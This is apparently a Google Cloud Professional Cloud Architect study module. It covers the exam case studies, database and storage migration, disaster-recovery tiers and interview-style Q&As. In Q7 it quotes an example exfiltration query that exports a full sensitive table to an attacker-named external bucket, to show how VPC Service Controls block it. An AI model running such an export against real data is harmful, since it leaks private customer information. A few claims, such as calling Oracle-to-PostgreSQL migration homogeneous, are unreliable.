







# Module 09: PCA Architecture Case Studies, Migration, and Disaster Recovery

The Google Cloud Professional Cloud Architect (PCA) certification and enterprise systems architecture practice evaluate the synthesis of multi-service topologies against complex business, regulatory, and technical constraints. Rather than evaluating isolated API features, architectural engineering requires balancing reliability, security, compliance, cost, and operational excellence across heterogeneous distributed systems. This module provides complete architectural analyses of the four official PCA enterprise case studies—**Altostrat Media**, **Cymbal Retail**, **EHR Healthcare**, and **KnightMotives Automotive**—alongside validated database and infrastructure migration blueprints, quantitative Disaster Recovery (DR) patterns, and multi-region failover mechanics.

---

## 1. Professional Cloud Architect Case Study Deep-Dives

The PCA examination presents real-world enterprise scenarios where candidates must translate high-level business goals into concrete, defensible Google Cloud system topologies.

### 1.1 Altostrat Media: Global Streaming & Edge Acceleration

**Business Context & Requirements**: Altostrat Media provides a subscription-based digital video and audio streaming platform. The business experiences extreme, unpredictable traffic spikes during live sporting events and major television releases. Key requirements include:

- Delivering low-latency streaming to global users with sub-second time-to-first-frame.
- Eliminating regional compute bottlenecks during flash crowds.
- Minimizing egress bandwidth transit costs for high-definition video chunks.
- Providing zero-downtime rolling updates for user profile and recommendation services.

**Target Architecture & Technical Decisions**:

1. **Edge Ingress**: Deploy a **Global External Application Load Balancer** with anycast IP routing. Client requests terminate at the nearest Google Point of Presence (PoP), traversing Google's private backbone rather than the public internet.
2. **Caching & Egress Optimization**: Enable **Cloud CDN** on the backend bucket storing video segments (`.m3u8` playlists and `.ts` chunk files). Static segments are cached at edge locations directly adjacent to end users, achieving a 90%+ cache hit ratio and drastically cutting origin egress costs.
3. **Application Tier**: Package user authentication, catalog browsing, and playback APIs into container microservices hosted on **Cloud Run** configured with `min-instances` to eliminate cold starts and autoscaling up to 1,000 instances to absorb flash crowds.
4. **Caching & Data Tier**: Deploy **Memorystore for Redis** with multi-zone high availability for sub-millisecond user session caching. Store media master assets in a **Multi-Region Cloud Storage Bucket** (`us` or `eu`), leveraging Google's global storage mesh for automatic high-availability replication.

### 1.2 Cymbal Retail: Hybrid POS, Event Choreography & Global Inventory

**Business Context & Requirements**: Cymbal Retail operates 1,200 brick-and-mortar retail stores alongside a rapidly growing e-commerce storefront. Their legacy architecture suffers from inventory synchronization lag: online shoppers purchase items that physical store customers have already bought, resulting in fulfillment cancellations. Key requirements include:

- Real-time global inventory synchronization across digital and physical stores with strict transactional consistency.
- Decoupling store Point-of-Sale (POS) terminals from central data center outages.
- Orchestrating order fulfillment across warehouses, shipping carriers, and notification systems.
- Supporting PCI-DSS Level 1 compliance for credit card tokenization.

**Target Architecture & Technical Decisions**:

1. **Edge Resilience**: Physical store terminals run containerized POS software caching transactions locally in an on-premises database if the store's WAN connection fails. Once connectivity recovers, queued transactions drain upstream to the central cloud gateway.
2. **Global Inventory Engine**: Deploy **Cloud Spanner** configured across a multi-region instance. Spanner provides strict serializability and external consistency via TrueTime, allowing online checkouts and physical store checkouts to update global stock tallies simultaneously without inventory overselling.
3. **Asynchronous Fulfillment**: Ingest order events through **Cloud Pub/Sub** using `orderingKey` based on `store_id` or `customer_id`. Coordinate multi-step order validation, payment settlement, warehouse picking, and courier dispatch using **Cloud Workflows** with automated retry policies and saga compensation steps.
4. **Payment Security**: Encrypt card tokens using **Customer-Managed Encryption Keys (CMEK)** in **Cloud KMS**, with keys hosted in FIPS 140-2 Level 3 Cloud HSMs to satisfy PCI-DSS mandates.

### 1.3 EHR Healthcare: HIPAA Compliance & Data Exfiltration Prevention

**Business Context & Requirements**: EHR Healthcare provides Electronic Health Record SaaS platforms to hospitals and clinics across North America. The system processes protected health information (PHI) governed by HIPAA, HITECH, and HITRUST frameworks. Key requirements include:

- Zero tolerance for PHI data exfiltration by unauthorized users, compromised credentials, or third-party SaaS tools.
- Transforming legacy HL7v2 and CCDA medical message streams into FHIR (Fast Healthcare Interoperability Resources) JSON format.
- Establishing an immutable 7-year audit trail of every clinical record download and query.
- Secure, dedicated hybrid connectivity to legacy on-premises hospital data centers.

**Target Architecture & Technical Decisions**:

1. **Hybrid Infrastructure**: Establish redundant 10 Gbps **Dedicated Cloud Interconnect** connections across distinct colocation facilities, backed by **Cloud HA VPN** as an encrypted backup path to satisfy 99.99% availability SLAs.
2. **Healthcare Data Transformation**: Ingest HL7v2 messages into the managed **Cloud Healthcare API**, which automatically parses, normalizes, and maps legacy clinical feeds into structured FHIR R4 resources.
3. **Data Exfiltration Perimeter**: Enclose the Cloud Healthcare API, Cloud Storage audit buckets, and BigQuery research datasets inside a strict **VPC Service Controls Service Perimeter**. Even if an administrative service account key is leaked, API calls attempting to export data to projects outside the perimeter are rejected.
4. **Audit Immutability**: Configure **Data Access Audit Logs** for `DATA_READ` and `DATA_WRITE` across all health data buckets. Route logs via a Log Sink into a Cloud Storage bucket governed by a **Retention Policy with Bucket Lock** configured for 2,557 days (7 years), making audit log deletion physically impossible before expiration.

### 1.4 KnightMotives Automotive: Petabyte-Scale Vehicle Telemetry

**Business Context & Requirements**: KnightMotives manufactures electric and autonomous vehicles. Over 2 million connected vehicles transmit diagnostic telemetry (battery temperature, motor RPM, tire pressure, GPS coordinates, lidar alerts) every 5 seconds. Key requirements include:

- Ingesting over 400,000 telemetry payloads per second with sub-second ingestion latency.
- Storing petabytes of time-series sensor data cost-effectively while supporting millisecond random reads by vehicle ID.
- Executing streaming window aggregations to detect impending battery overheating in real time.
- Training predictive maintenance machine learning models on multi-year telemetry histories.

**Target Architecture & Technical Decisions**:

1. **Ingestion Tier**: Terminate vehicle TLS connections at an ingestion fleet in GKE, publishing JSON telemetry to **Cloud Pub/Sub**. Pub/Sub scales horizontally across Google's infrastructure to handle hundreds of thousands of concurrent publish RPCs without partition pre-allocation.
2. **Stream Processing**: Deploy a **Cloud Dataflow** streaming pipeline utilizing **Streaming Engine**. Dataflow evaluates tumbling 1-minute fixed windows per vehicle, evaluating battery thermal gradient anomalies and emitting immediate emergency alerts.
3. **Operational Time-Series Storage**: Sink raw high-frequency sensor readings into **Cloud Bigtable**. Row keys are engineered using a salt prefix and vehicle identifier (`salt#vin#timestamp`) to guarantee uniform write distribution across tablet splits and prevent write hotspotting.
4. **Analytical Deep Archive**: In parallel, Dataflow streams compressed historical summaries into **BigQuery**, partitioned by day (`PARTITION BY DATE(event_timestamp)`) and clustered by `vin` and `component_type`. Data scientists train predictive failure models in **Vertex AI** querying BigQuery directly via the BigQuery Storage Read API.

---

## 2. Enterprise Migration Blueprints

Migrating enterprise on-premises workloads to Google Cloud requires structured methodologies, discovery tools, and minimal-downtime database replication pipelines.

### 2.1 Migration Center: Discovery and TCO Analysis

**Migration Center** is Google Cloud's centralized migration platform:

- **Agentless Discovery**: Deploys an on-premises discovery appliance to inventory physical servers, VMware vSphere environments, and network connections without installing software agents inside guest operating systems.
- **Dependency Mapping**: Analyzes real-time TCP network traffic flows between servers, identifying tightly coupled application tiers that must be migrated together within the same migration wave.
- **TCO & Sizing Estimation**: Maps observed on-premises CPU, memory, and disk I/O metrics to recommended Compute Engine machine shapes, comparing On-Demand, 1-year CUD, and 3-year CUD cost models.

### 2.2 Database Migration Service (DMS)

**Database Migration Service (DMS)** provides automated, high-fidelity database migrations to Cloud SQL and AlloyDB:

- **Homogeneous Engine Migration**: Natively migrates MySQL to Cloud SQL for MySQL, PostgreSQL to Cloud SQL for PostgreSQL / AlloyDB, and Oracle to Cloud SQL for PostgreSQL.
- **Change Data Capture (CDC)**: DMS initiates an initial full-schema dump and table load, followed by continuous, serverless Change Data Capture (CDC) streaming transaction log mutations (MySQL binlogs or PostgreSQL logical replication slots).
- **Minimal Cutover Downtime**: The source database remains online and fully operational while replication runs continuously. When replication lag reaches sub-second levels, the application halts writes to on-premises, promotes the Cloud SQL instance to standalone master, and updates connection strings, completing cutover in minutes.

### 2.3 Storage Transfer Service (STS)

**Storage Transfer Service** automates petabyte-scale data migration into Cloud Storage:

- **Sources**: Ingests data from AWS S3, Microsoft Azure Blob Storage, public HTTP/HTTPS endpoints, and on-premises POSIX file systems (via on-premises transfer agents).
- **Data Integrity & Resiliency**: Calculates end-to-end MD5 checksums on all transferred objects, automatically retrying failed file transfers and deleting source objects conditionally only after successful verification.
- **Transfer Scheduling**: Supports recurring sync schedules that replicate only newly created or modified files, minimizing bandwidth consumption prior to final cutover.

---

## 3. Disaster Recovery (DR) Tiers and High-Availability Engineering

Designing for catastrophic failure requires balancing the business cost of downtime against the infrastructure expense of redundant systems. Disaster recovery strategies are governed by two fundamental operational metrics:

- **Recovery Time Objective (RTO)**: The maximum acceptable elapsed duration of system downtime between incident occurrence and full operational recovery.
- **Recovery Point Objective (RPO)**: The maximum acceptable data loss measured as the duration of unsynchronized transactions between the last persistent backup and failure.

| Disaster Recovery Pattern | Target RTO | Target RPO | Relative Cost | Architectural Google Cloud Implementation Blueprint |
| :-- | :-- | :-- | :-- | :-- |
| **Backup and Restore (Cold Standby)** | Hours to Days | 24 Hours | \$ (Lowest) | Nightly Compute Engine snapshot schedules replicated to a secondary region. Automated Cloud SQL daily backups and Cloud Storage Nearline archives. Resources provisioned only after disaster declaration via Terraform. |
| **Pilot Light (Warm Minimal)** | 10–30 Minutes | < 15 Minutes | \$\$ | Core data tier running continuously in secondary region (Cloud SQL Cross-Region Read Replica or Dual-Region Storage with Turbo Replication). Compute Engine instance templates prepared; MIG minimum size set to 0. |
| **Warm Standby (Scaled Down)** | < 10 Minutes | < 1 Minute | \$\$\$ | Scaled-down compute fleet running continuously in secondary region (MIG running 20% capacity behind global load balancer). Database replica warm. Scaling triggers automatically upon primary failure. |
| **Multi-Region Hot Standby (Active-Active)** | Near Zero (< 30s) | Zero (0) | \$\$\$\$ (Highest) | Multi-Region Global External Application Load Balancer routing traffic dynamically across two active regions. **Cloud Spanner** multi-region instance providing synchronous Paxos commits across regions. |

### 3.1 Cloud Storage Turbo Replication for 15-Minute RPO

Standard dual-region Cloud Storage buckets replicate asynchronously across regions, targeting 99.9% of objects replicated within 12 hours without a contractual SLA. For mission-critical disaster recovery where enterprise compliance mandates a strict RPO:

- Enabling **Turbo Replication** (`gcloud storage buckets update gs://bucket --turbo-replication`) contracts Google Cloud to replicate 100% of newly written objects between paired dual-regions within **15 minutes**.
- This commitment is backed by a financially enforceable Service Level Agreement (SLA).

### 3.2 Spanner Multi-Region Architectures for Zero RPO / Near-Zero RTO

For applications requiring zero RPO and zero RTO relational data storage:

- A multi-region Cloud Spanner instance (such as `nam-eur-asia1` or `nam3`) maintains synchronous Paxos consensus groups distributed across multiple regions.
- Write transactions require a quorum across Paxos voting replicas. If an entire Google Cloud region experiences a total catastrophic failure, surviving regions automatically elect a new Paxos leader within seconds.
- Zero data loss occurs (RPO = 0), and applications fail over with sub-minute connection recovery (RTO < 30 seconds) backed by a 99.999% availability SLA.

---

## 4. Production Gotchas and Failure Modes

| Service | Gotcha / Production Failure Mode | Architectural Root Cause | Remediation / Verified Best Practice |
| :-- | :-- | :-- | :-- |
| **Cloud SQL** | Split-brain data corruption during manual DR failover | Operator promotes a cross-region read replica to standalone master while the original primary is still accepting writes. | Enforce strict fencing: revoke network routes or shut down primary instance prior to replica promotion, and reconfigure DNS atomically. |
| **Bigtable** | Write hotspotting during vehicle telemetry ingestion | Row keys lead with sequential timestamps (`2026-11-08T...`), concentrating 100% of writes onto a single tablet split. | Prepend a high-cardinality salt prefix or hash (`hash(vin)[0:4]#vin#timestamp`) to distribute writes uniformly across nodes. |
| **Cloud CDN** | Catastrophic origin overload during live media streaming | Cache-Control headers omitted on dynamic video manifest playlists, forcing every client request to hit origin Cloud Run services. | Set short TTLs (`max-age=2`) on `.m3u8` playlists and long TTLs (`max-age=86400`) on immutable `.ts` video chunk files. |
| **VPC Service Controls** | Interconnect migration blocked by perimeter rules | Migration appliance attempting to sync on-premises database data is rejected by the cloud project's service perimeter. | Configure an Ingress Rule in Access Context Manager permitting the on-premises subnet range and migration service account identity. |
| **Database Migration Service** | Incomplete CDC replication due to transaction log truncation | On-premises MySQL binlogs or PostgreSQL WAL logs purged before DMS processes them, breaking replication stream. | Configure generous retention on source database transaction logs (minimum 72 hours) during the active migration phase. |
| **Cloud Run** | High tail latency during global traffic surge | Service configured with `min-instances = 0` experiences concurrent container cold starts across hundreds of global instances. | Set `min-instances` to handle baseline load, tune concurrency to 80+, and configure Cloud Armor rate limiting at the ingress edge. |
| **Compute Engine MIG** | Failed autohealing storm during transient network blip | Autohealing health check configured with overly aggressive threshold (1 failure) terminates healthy VMs during a minor gateway blip. | Set `check-interval = 10s`, `unhealthy-threshold = 3`, and configure an initial delay (`initial-delay-sec = 300`) for application boot. |
| **Cloud Spanner** | Transaction lock contention across interleaved child tables | Heavy updates on child rows acquire shared read/write locks on the root parent split, stalling concurrent transactions. | Ensure query access patterns touch only the specific child records, or partition updates into independent parallel transactions. |

---

## 5. Interview Drill: Enterprise Architecture Scenarios

<b>Q1: Altostrat Media experiences massive traffic surges during global live sports broadcasts. Viewers across Asia report video stuttering and buffering, while the origin Cloud Run microservices report 95% CPU utilization. Analysis shows that 85% of incoming requests are for static video chunk files (.ts). How should the edge architecture be redesigned to eliminate this bottleneck?</b>

**Answer**: Deploy **Cloud CDN in front of Cloud Storage backend buckets with optimized Cache-Control headers**.

**Architectural Remediation**:

1. **Edge Caching**: Place a **Global External Application Load Balancer** with **Cloud CDN** enabled in front of the Cloud Storage multi-region bucket storing the video chunks.
2. **Cache Headers**: Configure Cloud Storage object metadata with explicit HTTP caching directives:
   - Video chunks (`.ts` files) are immutable; configure `Cache-Control: public, max-age=31536000, immutable`.
   - Manifest playlists (`.m3u8` files) update dynamically; configure `Cache-Control: public, max-age=2`.
3. **Origin Shielding**: Enable Cloud CDN **Origin Shield** in a region adjacent to the storage bucket. Origin Shield consolidates global edge cache misses into a single secondary cache layer, reducing origin requests by over 95%.
4. **Traffic Offloading**: Over 95% of video chunk requests are served directly from Google PoP edge caches worldwide. Origin Cloud Run instances handle only dynamic authentication and personalized ad insertion, dropping CPU utilization to baseline.

- Ref: [Section 1.1: Altostrat Media: Global Streaming & Edge Acceleration](#11-altostrat-media-global-streaming--edge-acceleration), [Cloud CDN Overview](https://cloud.google.com/cdn/docs/overview)

<b>Q2: Cymbal Retail is migrating its core point-of-sale inventory system from an on-premises Oracle database to Google Cloud. The system must support concurrent inventory reservation transactions from 1,200 stores and e-commerce checkouts worldwide, guaranteeing zero overselling and absolute serializability. Why is Cloud Spanner the only managed relational database that satisfies this requirement, and why would Cloud SQL fail?</b>

**Answer**: Only **Cloud Spanner** provides globally distributed transactional consistency with external consistency (serializability) backed by Google's **TrueTime API**.

**Technical Justification**:

- **Why Cloud SQL Fails**: Cloud SQL operates as a single-region primary with asynchronous cross-region read replicas. Cross-region replicas cannot accept write transactions, and asynchronous replication lag introduces stale reads. If an e-commerce user in Europe and a physical store customer in the US purchase the last item simultaneously, Cloud SQL cannot coordinate distributed two-phase commit across regions, resulting in inventory overselling.
- **Why Cloud Spanner Succeeds**: Spanner uses TrueTime (GPS receivers and atomic clocks) to assign monotonically increasing commit timestamps. Distributed Paxos groups achieve cross-region consensus on inventory row locks. Transactions are strictly serializable across the globe, guaranteeing that inventory stock decrements are processed in absolute chronological order without split-brain or overselling.

- Ref: [Section 1.2: Cymbal Retail: Hybrid POS, Event Choreography & Global Inventory](#12-cymbal-retail-hybrid-pos-event-choreography--global-inventory), [Cloud Spanner TrueTime and External Consistency](https://cloud.google.com/spanner/docs/true-time-external-consistency)

<b>Q3: An enterprise running an on-premises PostgreSQL database with 15 TB of transactional data plans to migrate to AlloyDB for PostgreSQL. The business mandate dictates that database cutover downtime must not exceed 15 minutes. How should the migration pipeline be architected using Google Cloud native tools?</b>

**Answer**: Execute the migration using **Database Migration Service (DMS) with Continuous Change Data Capture (CDC)**.

**Migration Architecture**:

1. **Network Connectivity**: Establish a private, secure connection between the on-premises database and Google Cloud using Cloud Interconnect or Cloud HA VPN.
2. **Initial Snapshot & CDC Ingestion**: Configure DMS to connect to the on-premises PostgreSQL instance. DMS initiates an initial full data copy into a new AlloyDB primary instance, followed immediately by continuous logical replication using PostgreSQL replication slots.
3. **Continuous Synchronization**: The on-premises database remains fully live and serves production traffic. DMS continuously captures all `INSERT`, `UPDATE`, and `DELETE` transactions, applying them to AlloyDB in near real time.
4. **Planned Cutover**: Monitor replication lag until lag is under 1 second. During a scheduled 15-minute maintenance window:
   - Place the on-premises application into read-only mode.
   - Wait for DMS replication lag to reach zero.
   - Promote the AlloyDB instance to standalone master via DMS.
   - Update application connection strings to the AlloyDB private IP and resume full production operations.

- Ref: [Section 2.2: Database Migration Service (DMS)](#22-database-migration-service-dms), [Migrating PostgreSQL to AlloyDB with DMS](https://cloud.google.com/database-migration/docs/postgres)

<b>Q4: EHR Healthcare must comply with strict federal healthcare regulations requiring that patient electronic health records (EHR) cannot be deleted or modified by anyone—including compromised organization administrators or Google support personnel—for exactly 7 years. How do you implement this in Cloud Storage?</b>

**Answer**: Deploy a **Cloud Storage Retention Policy with Bucket Lock**.

**Implementation**:

1. Create a dedicated Cloud Storage bucket with **Uniform Bucket-Level Access (UBLA)** enabled.
2. Define a **Retention Policy** specifying a duration of 7 years (220,752,000 seconds): `gcloud storage buckets update gs://ehr-audit-vault --retention-period="220752000s"`.
3. Permanently lock the retention policy: `gcloud storage buckets lock gs://ehr-audit-vault`.
4. **Compliance Enforcement**: Once locked, Bucket Lock is **completely irreversible**. Neither Project Owners, Organization Admins, nor Google engineers can reduce the retention period, remove the policy, or delete the bucket as long as unexpired objects exist within it. Any `storage.objects.delete` call issued prior to an object's 7-year anniversary is rejected by the Cloud Storage API.

- Ref: [Section 1.3: EHR Healthcare: HIPAA Compliance & Data Exfiltration Prevention](#13-ehr-healthcare-hipaa-compliance--data-exfiltration-prevention), [Cloud Storage Bucket Lock Guide](https://cloud.google.com/storage/docs/bucket-lock)

<b>Q5: KnightMotives ingests telemetry from 2 million vehicles into Cloud Bigtable. The cluster CPU utilization is pegged at 100% on a single node, while the remaining 9 nodes in the cluster sit idle at 2% CPU. What is the root cause, and how must the row key be redesigned?</b>

**Answer**: The performance collapse is caused by **Write Hotspotting** due to a **Monotonically Increasing Row Key**.

**Root Cause**:

- If telemetry row keys start with a timestamp (e.g. `2026-11-08T120000Z#vehicle_101`), all writes occurring in the current second sort together lexicographically. Because Bigtable partitions tables by row key ranges across tablet splits, all active writes route to the single tablet split responsible for the tail boundary, overloading its assigned node while other nodes sit idle.

**Remediation**: Redesign the row key to achieve uniform lexicographical distribution across the entire cluster:

1. **Prepend a Hash or Salt**: Use a 4-character MD5 hash of the vehicle VIN: `hash(vin)[0:4]#vin#timestamp`.
2. **Reverse Timestamp**: If the most recent readings must be scanned quickly for a vehicle, append a reverse timestamp (`Long.MAX_VALUE - timestamp`) after the salted vehicle ID.
3. Writes now distribute evenly across all 10 nodes simultaneously, scaling cluster throughput linearly.

- Ref: [Section 1.4: KnightMotives Automotive: Petabyte-Scale Vehicle Telemetry](#14-knightmotives-automotive-petabyte-scale-vehicle-telemetry), [Bigtable Schema Design Best Practices](https://cloud.google.com/bigtable/docs/schema-design)

<b>Q6: An enterprise architect is designing a disaster recovery strategy for an online banking core. The business requires an RPO of less than 15 minutes and an RTO of less than 30 minutes, while keeping infrastructure costs significantly lower than an active-active multi-region deployment. Which DR tier should be deployed and what is the Google Cloud architecture?</b>

**Answer**: Deploy the **Pilot Light (Warm Minimal) Disaster Recovery Tier**.

**Architecture & Implementation**:

1. **Data Tier (Continuous Sync)**:
   - Provision a primary **Cloud SQL** instance in the primary region (`us-central1`) with a **Cross-Region Read Replica** running continuously in the secondary region (`us-east1`). Asynchronous replication maintains an RPO under 1 minute.
   - Store critical transactional documents in a **Dual-Region Cloud Storage Bucket** (`us-central1` and `us-east1`) with **Turbo Replication** enabled, guaranteeing an RPO under 15 minutes backed by an SLA.
2. **Compute Tier (Standby)**:
   - Define Compute Engine **Instance Templates** and **Managed Instance Groups** in `us-east1` with target size set to 0 (or 1 minimal instance for health checking).
3. **Failover Execution (RTO < 30m)**:
   - Upon disaster declaration, promote the cross-region read replica to standalone primary master (`gcloud sql instances promote-replica`).
   - Scale the secondary MIG to 100% capacity (`gcloud compute instance-groups managed resize --size=20`).
   - Update the Global External Application Load Balancer backend service to route traffic to the secondary MIG.

- Ref: [Section 3: Disaster Recovery (DR) Tiers and High-Availability Engineering](#3-disaster-recovery-dr-tiers-and-high-availability-engineering), [Disaster Recovery Planning Guide](https://cloud.google.com/architecture/disaster-recovery)

<b>Q7: A financial analytics platform runs complex BigQuery queries across 50 TB datasets. The data contains customer PII that must never be exfiltrated outside the project. A developer's laptop with legitimate project access is compromised. How does VPC Service Controls prevent the compromised credentials from exfiltrating the data to an external personal Google Cloud bucket?</b>

**Answer**: VPC Service Controls evaluates API requests at the **Storage & BigQuery API boundary**, blocking cross-perimeter data movement.

**Mechanics of Protection**:

1. The company's production project and BigQuery/Cloud Storage services are placed inside a **Service Perimeter**.
2. When the attacker attempts to run a query like `EXPORT DATA OPTIONS (uri='gs://attacker-external-bucket/export/*.csv') AS SELECT * FROM sensitive_table;`, the BigQuery engine analyzes the destination URI.
3. Because `gs://attacker-external-bucket` belongs to an external project located outside the service perimeter, and no explicit Egress Rule exists authorizing data transfer to that project, VPC Service Controls intercepts the request and terminates the operation with a `SECURITY_POLICY_VIOLATION` error. The exfiltration fails completely even though the compromised identity had valid `BigQuery Admin` and `Storage Admin` roles.

- Ref: [Section 1.3: EHR Healthcare: HIPAA Compliance & Data Exfiltration Prevention](#13-ehr-healthcare-hipaa-compliance--data-exfiltration-prevention), [VPC Service Controls Data Protection](https://cloud.google.com/vpc-service-controls/docs/data-protection)

<b>Q8: A media company needs to migrate 500 TB of video files from an AWS S3 bucket to Google Cloud Storage. The migration must verify data integrity, run over public internet connections without provisioning VPNs or Interconnects, and automatically synchronize incremental file additions every 24 hours until cutover. What tool should be used and how is it configured?</b>

**Answer**: Deploy **Storage Transfer Service (STS) for Cloud Storage**.

**Configuration**:

1. **Create Transfer Job**: In Google Cloud, create a Storage Transfer Service job specifying the source as the AWS S3 bucket and the destination as the target Cloud Storage bucket.
2. **Authentication**: Configure authentication using an AWS IAM Role with federated web identity or an AWS IAM access key with S3 read permissions.
3. **Data Integrity**: Storage Transfer Service natively calculates MD5 and CRC32C checksums for every transferred file, verifying that the bytes stored in Cloud Storage exactly match the source S3 object before marking the transfer complete.
4. **Incremental Synchronization**: Configure the transfer job schedule to repeat daily. STS compares file modification timestamps and checksums, transferring only newly added or modified files, minimizing transfer bandwidth and time prior to cutover.

- Ref: [Section 2.3: Storage Transfer Service (STS)](#23-storage-transfer-service-sts), [Storage Transfer Service from Amazon S3](https://cloud.google.com/storage-transfer/docs/cloud-storage-transfer/amazon-s3)

